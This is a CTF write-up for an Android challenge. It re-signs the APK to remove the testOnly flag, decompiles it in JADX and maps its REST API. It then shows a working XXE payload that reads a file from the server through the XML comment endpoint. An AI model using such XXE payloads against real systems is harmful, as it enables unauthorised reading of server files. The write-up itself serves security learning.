

# Cars


> Found this nice app! What could go wrong with this simple application?!

# Installing the Application

We are given an Android application, `cars.apk`. Initially I tried to install the application in my Android emulator, but got this error:

```
$ adb install cars.apk
Performing Streamed Install
adb: failed to install cars.apk: Failure [INSTALL_FAILED_TEST_ONLY: installPackageLI]
```

Opening the APK up in JADX, we see that `android:testOnly="true"` is present in the AndroidManifest.xml:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" android:compileSdkVersion="28" android:compileSdkVersionCodename="9" package="com.arconsultoria.cars" platformBuildVersionCode="28" platformBuildVersionName="9">
    <uses-sdk android:minSdkVersion="26" android:targetSdkVersion="28"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@mipmap/ic_launcher" android:debuggable="true" android:testOnly="true" android:allowBackup="true" android:supportsRtl="true" android:usesCleartextTraffic="true" android:roundIcon="@mipmap/ic_launcher_round" android:appComponentFactory="androidx.core.app.CoreComponentFactory">
        <activity android:name="com.arconsultoria.cars.activity.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <activity android:name="com.arconsultoria.cars.activity.DetailsActivity"/>
        <activity android:name="com.arconsultoria.cars.activity.CommentActivity"/>
        <provider android:name="com.squareup.picasso.PicassoProvider" android:exported="false" android:authorities="com.arconsultoria.cars.com.squareup.picasso"/>
    </application>
</manifest>
```

The admins said that it was solvable without installing in an emulator to run, but I was curious and wanted to get it running. Although the APK is signed, it is possible to re-sign the APK with a modified AndroidManifest.xml to run in the emulator. This can be done with [`apktool`](https://ibotpeaches.github.io/Apktool/) and [`sign.jar`](https://github.com/appium/sign):

```sh
$ apktool d cars.apk
# edit cars/AndroidManifest.xml to remove the testonly

$ apktool b cars cars_patched.apk
# the output APK is in cars/dist/cars_patched.apk

$ mv cars/dist/cars_patched.apk .
$ java -jar sign.jar cars_patched.apk
# signed APK in cars_patched.s.apk
```

# Running the Application

This is what we get when we first run the app:


When we tap on a car, we get:


When we tap on `Send Comment`, we get:



Let's fill it out and submit it:


We see that the `Name` field is sent back to us in the response toast notification.

# Decompiling the Application

With that, let's actually analyze the application in JADX.

Immediately the interface `com.arconsultoria.cars.rest.Rest` catches my eye:

```java
package com.arconsultoria.cars.rest;

import com.arconsultoria.cars.domain.Car;
import com.arconsultoria.cars.domain.Comment;
import com.arconsultoria.cars.domain.CommentResponse;
import java.util.List;
import kotlin.Metadata;
import retrofit2.Call;
import retrofit2.http.Body;
import retrofit2.http.GET;
import retrofit2.http.POST;
import retrofit2.http.Path;

@Metadata("removed for writeup")
/* compiled from: Rest.kt */
public interface Rest {
    @GET("/car/{id}")
    Call<Car> getCar(@Path("id") int i);

    @GET("/cars")
    Call<List<Car>> getCars();

    @POST("/comment")
    Call<CommentResponse> postComment(@Body Comment comment);
}
```

We see that the `retrofit2` library is used to perform HTTP requests to a backend API. Let's see how it gets used, in `com.arconsultoria.cars.activity.CommentActivity`:

```java
package com.arconsultoria.cars.activity;

import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import androidx.appcompat.app.AppCompatActivity;
import com.arconsultoria.cars.C0449R;
import com.arconsultoria.cars.domain.Comment;
import com.arconsultoria.cars.rest.Rest;
import java.util.HashMap;
import kotlin.Metadata;
import kotlin.jvm.internal.Intrinsics;
import retrofit2.Retrofit.Builder;
import retrofit2.converter.gson.GsonConverterFactory;

@Metadata("removed for writeup")
/* compiled from: CommentActivity.kt */
public final class CommentActivity extends AppCompatActivity {
    private HashMap _$_findViewCache;

    // truncated for writeup

    public final void send_comment() {
        Rest service = (Rest) new Builder().baseUrl(getResources().getString(C0449R.string.url_api)).addConverterFactory(GsonConverterFactory.create()).build().create(Rest.class);
        EditText editText = (EditText) _$_findCachedViewById(C0449R.C0451id.edt_name);
        Intrinsics.checkExpressionValueIsNotNull(editText, "edt_name");
        String obj = editText.getText().toString();
        EditText editText2 = (EditText) _$_findCachedViewById(C0449R.C0451id.edt_message);
        Intrinsics.checkExpressionValueIsNotNull(editText2, "edt_message");
        service.postComment(new Comment(obj, editText2.getText().toString())).enqueue(new CommentActivity$send_comment$1(this));
    }
}
```

In `send_comment()`, we see that a `Rest` object is created, with the API URL coming from `C0449R.string.url_api`, and then a `GsonConverterFactory` being used to parse the response. `Gson` is a library published by Google for parsing JSON, so we know that the API communicates using JSON messages.

The last interesting piece I needed to find in the application before I can start messing with the API is what the URL is. Unfortunately, the `C0449R` class is a list of resource IDs, and I didn't know how to get the specified resource.

Originally the application was communicating over HTTP (the admins published a new version after I alerted them that the app wasn't working properly due to improper handling of an HTTP 301 response), so I was able to easily use Burp to see the API requests. Unfortunately, their API was behind HTTPS on Cloudflare and Burp was failing to negotiate the TLS connection (even though other TLS sites were being proxied successfully). Luckily, I already knew where the API was so I was able to continue.

Another way to get the string out of the application is with a commercial tool called JEB. I used the free trial, which decompiled the file and showed what the string was in a comment, so that's another way to get it.

# API Communication

Looking back at `com.arconsultoria.cars.rest.Rest` interface, we see that there are 3 API routes being used:

* `GET /cars`
* `GET /car/:id`
    * `int` ID for the requested car
* `POST /comment`
    * Some sort of JSON payload comes with this

To figure out the structure of the `/comment` endpoint, I looked at the referenced `com.arconsultoria.cars.domain.Comment` class:

```java
package com.arconsultoria.cars.domain;

import kotlin.Metadata;
import kotlin.jvm.internal.Intrinsics;

@Metadata("removed for writeup")
/* compiled from: Comment.kt */
public final class Comment {
    private String message;
    private String name;

    // truncated for writeup

    public String toString() {
        StringBuilder sb = new StringBuilder();
        sb.append("Comment(name=");
        sb.append(this.name);
        sb.append(", message=");
        sb.append(this.message);
        sb.append(")");
        return sb.toString();
    }

    public Comment(String name2, String message2) {
        Intrinsics.checkParameterIsNotNull(name2, "name");
        Intrinsics.checkParameterIsNotNull(message2, "message");
        this.name = name2;
        this.message = message2;
    }

    // truncated for writeup
}
```

We can guess that the JSON payload will look like:

```json
{
    "name": "Test Comment",
    "message": "Hello!"
}
```

Armed with this knowledge, let's write a Python script to communicate with the API:

```py
import requests

url = "https://cars.fireshellsecurity.team"

def get_cars():
    r = requests.get(url + "/cars")
    print(r.headers)
    return r.json()

def get_car(id):
    return requests.get(url + f"/car/{id}").json()

def make_comment(name, message):
    msg = {
        "name": name,
        "message": message
    }

    r = requests.post(url + "/comment", json=msg)
    return r.json()
```

The `/cars` and `/car/:id` requests weren't very interesting, but let's look at the headers for the `/comment` endpoint:

```
Date: Sun, 22 Mar 2020 21:05:09 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: __cfduid=df8e835e0d61efb8e29fb96c265073fab1584911109; expires=Tue, 21-Apr-20 21:05:09 GMT; path=/; domain=.fireshellsecurity.team; HttpOnly; SameSite=Lax; Secure
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
X-Content-Type-Options: nosniff
Server: cloudflare
CF-RAY: 5782de838877fda5-PDX
Content-Encoding: gzip
alt-svc: h3-27=":443"; ma=86400, h3-25=":443"; ma=86400, h3-24=":443"; ma=86400, h3-23=":443"; ma=86400
```

We also get a JSON response from the API, again seeing that our `Name` field is present in the response:

```
{'message': 'Thank you asdf for your comment!'}
```

Hmm, I wonder if we can use other `Content-Type`s? After a quick Google search, we see that `retrofit2` technically can use XML, and even though there probably isn't a Java client with `retrofit2` on the server, it's possible that we could do an XXE (XML eXternal Entities) attack to leak the flag from the server.

# POSTing a comment with XML

First, let's try and send a normal comment with an XML payload. After some Googling, we see that `retrofit2` uses a parent XML element as the class name, and then each parameter as a sub-element, so we construct an XML payload like this:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<Comment>
    <name>XML comment!</name>
    <message>Hello there!</message>
</Comment>
```

Sending that payload (along with setting `Content-Type` to `application/xml`), we get the following JSON response:

```
{'message': 'Thank you XML comment! for your comment!'}
```

Yay! This confirms that the application successfully parses our XML payload.

# XXE Exploit

Now, we need to write an XML payload to get the flag. Let's use a basic XXE payload to load the flag and read it as the `name` element, since it is sent back to us in the response:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM  "file:///flag" >
]>
<Comment>
    <name>&xxe;</name>
    <message>flag please!</message>
</Comment>
```

If we send this payload, we get the flag!

```
{'message': 'Thank you F#{0h_f1n4lly_y0u_f0und_m3!}\n for your comment!'}
```

This was a really fun challenge, and I look forward to more Android challenges in future CTFs.